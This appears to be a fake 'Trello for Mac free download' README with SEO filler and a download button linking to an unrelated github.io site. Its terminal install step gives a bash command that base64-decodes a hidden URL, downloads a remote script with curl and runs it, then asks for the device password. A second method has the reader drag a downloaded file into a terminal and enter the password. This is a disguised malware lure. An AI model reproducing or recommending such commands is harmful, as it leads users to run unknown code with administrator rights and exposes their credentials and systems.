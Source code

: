 # Trello For Mac — Free Download 🚀
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple221/v4/27/ef/65/27ef653c-2510-bc73-5b31-618ba86f32e9/electron.png/1200x630bb.png)

Effortlessly manage your projects with Trello for Mac OS. Follow the simple steps below to download and install this powerful task management tool for free!

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/trellomac)

If the button above doesn't work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install Trello For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Trello

- 🚀 **Intuitive Task Management**: Organize tasks with drag-and-drop boards, lists, and cards for seamless project tracking.
- 🔔 **Real-Time Collaboration**: Work with your team in real time, with instant updates and notifications.
- 📅 **Flexible Deadlines**: Set due dates, reminders, and checklists to keep projects on track.
- 📎 **File Attachments**: Attach files, images, and documents directly to tasks for easy access.
- 🔄 **Cross-Platform Sync**: Sync your Trello boards across Mac, mobile, and web for uninterrupted productivity.
- ⚙️ **Customizable Workflows**: Tailor boards with labels, filters, and automations to fit your workflow.

## About Trello

Trello for Mac is a versatile **task management software** designed to streamline your workflow, whether you're managing personal projects or collaborating with a team. With its clean interface and powerful features, Trello transforms chaotic to-do lists into organized, actionable plans. By leveraging **Trello free download**, users can access a robust platform that supports everything from simple task tracking to complex project management. Its drag-and-drop functionality makes it easy to prioritize tasks, assign team members, and monitor progress in real time. Trello is perfect for professionals, students, and anyone seeking a **productivity tool for Mac** that’s both intuitive and powerful.

One of Trello's standout features is its flexibility. Whether you're planning a marketing campaign, organizing a wedding, or tracking software development, Trello adapts to your needs with customizable boards, lists, and cards. The **free project management app** integrates seamlessly with tools like Slack, Google Drive, and Dropbox, allowing you to centralize your work in one place. The ability to attach files, set deadlines, and automate repetitive tasks ensures that Trello remains a go-to choice for those searching for a **Mac productivity software** that’s both free and reliable.

Trello’s collaborative features make it ideal for teams of all sizes. Real-time updates ensure that everyone stays on the same page, while comment threads and activity logs keep communication clear and organized. For those exploring **task management for Mac**, Trello’s cloud-based syncing means your boards are accessible across devices, ensuring you can work from anywhere. The free version of Trello offers ample functionality for most users, making it a top choice for those seeking a **free Trello download for Mac**.

Security is a priority with Trello, ensuring your data is protected while you focus on productivity. The platform uses industry-standard encryption, and the Mac app is optimized for performance, delivering a smooth experience even on older devices. For anyone looking to boost efficiency with a **free productivity app**, Trello’s lightweight design and powerful features make it a standout option. Its regular updates ensure compatibility with the latest macOS versions, keeping your workflow uninterrupted.

### Why Choose Trello?

Trello’s key advantage lies in its simplicity paired with robust functionality. Unlike other **task management tools**, Trello offers a free, feature-rich experience that doesn’t overwhelm users with complexity. Its visual board-based system is intuitive, making it accessible for beginners while offering advanced features like Butler automation for power users. With a **free download for Mac**, Trello empowers users to organize their work efficiently without costly subscriptions, making it a top choice for **Mac productivity software**.

## 🖼 Preview

![Trello Board View](https://i.imgur.com/qi5pwR3.png)  
*Organize tasks with Trello’s intuitive board view.*

![Task Details](https://images.ctfassets.net/zsv3d0ugroxu/6ihQreqMyggxhgnr7nQ0Yy/babd0061d0b19a29b0d0dca5c966d435/Screenshot_TrelloSettings)  
*Add attachments, due dates, and comments to tasks.*

![Team Collaboration](https://atlassianblog.wpengine.com/wp-content/uploads/2024/01/sidemenu_sticky.png)  
*Collaborate in real time with your team.*

## 🔍 Tags

Trello free download, Trello for Mac, free productivity app, free Trello download for Mac, trello mac, trello download mac, trello mac os, trello for macbook, trello desktop download, trello desktop app for mac, trello desktop mac, trello download, trello download free, trello mac os

